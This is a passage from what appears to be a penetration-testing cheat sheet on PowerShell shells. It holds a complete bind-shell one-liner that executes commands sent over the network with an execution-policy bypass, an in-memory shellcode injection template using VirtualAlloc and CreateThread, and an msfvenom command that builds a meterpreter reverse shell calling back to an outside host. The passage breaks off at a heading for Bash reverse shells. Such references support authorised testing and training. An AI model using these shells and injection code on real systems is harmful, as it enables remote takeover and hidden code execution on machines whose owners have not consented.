 ### <mark style="color:orange;">PowerShell Bind Shells</mark>

```
powershell  -ep bypass -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',6666);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

{% hint style="info" %}
ip should be the windows machine IP which is hosting the listener
{% endhint %}

now we connect to the listener with nc:

```
nc [ip] [port] 
```

### <mark style="color:orange;">in-memory injection</mark>

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat
ionType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc
[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

## <mark style="color:red;">Bash</mark>&#x20;

### <mark style="color:orange;">Bash Reverse</mark>
